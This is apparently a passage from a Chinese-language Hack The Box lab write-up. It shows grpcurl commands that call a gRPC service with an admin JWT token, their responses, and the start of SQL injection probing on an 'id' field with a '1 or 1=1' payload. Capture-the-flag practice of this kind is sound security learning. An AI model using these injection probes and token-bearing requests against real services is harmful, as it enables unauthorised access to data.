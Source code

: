```bash
echo $Login
echo "ID" $myID
echo "TOKEN" $token

echo "The request you want:"
echo "./grpcurl -vv -plaintext -H 'token: ${token}' -d '{\"id\":\"${myID}\"}' ${HTB_IP}:50051 SimpleApp/getInfo"
```

运行上面的脚本后，执行调用getInfo的命令：
```bash
└─$ ./grpcurl -vv -plaintext -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUwMDM0NzN9.R_Z6JXS49px42pQwgGdm5gj9-3-p7n9lA28aLLCVq2o' -d '{"id":"70"}' 10.10.11.214:50051 SimpleApp/getInfo

Resolved method descriptor:
rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );

Request metadata to send:
token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUwMDM0NzN9.R_Z6JXS49px42pQwgGdm5gj9-3-p7n9lA28aLLCVq2o

Response headers received:
content-type: application/grpc
grpc-accept-encoding: identity, deflate, gzip

Estimated response size: 19 bytes

Response contents:
{
  "message": "Will update soon."
}

Response trailers received:
(empty)
Sent 1 request and received 1 response
```

试了一下admin登陆SSH也不行。

其实本身还考虑过是否要利用“grpc.reflection.v1alpha.ServerReflection”，不过从postman发现我能选的只有“SimpleApp”。就姑且不管了。  

#### 发现SQLi

开始琢磨这个id参数能不能注入啥的。  
*下面开始关注payload，所以 `-vv` 选项就省略了*

一开始放个单引号发现不行。考虑好一阵子才想起来最基础的知识，这可能不是字符类型而是数字类型：
```bash
└─$ ./grpcurl -plaintext -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUwMDM0NzN9.R_Z6JXS49px42pQwgGdm5gj9-3-p7n9lA28aLLCVq2o' -d '{"id":"1"}' 10.10.11.214:50051 SimpleApp/getInfo 
{
  "message": "The admin is working hard to fix the issues."
}

└─$ ./grpcurl -plaintext -H 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUwMDM0NzN9.R_Z6JXS49px42pQwgGdm5gj9-3-p7n9lA28aLLCVq2o' -d '{"id":"1 or 1=1"}' 10.10.11.214:50051 SimpleApp/getInfo
{
  "message": "The admin is working hard to fix the issues."
}
```
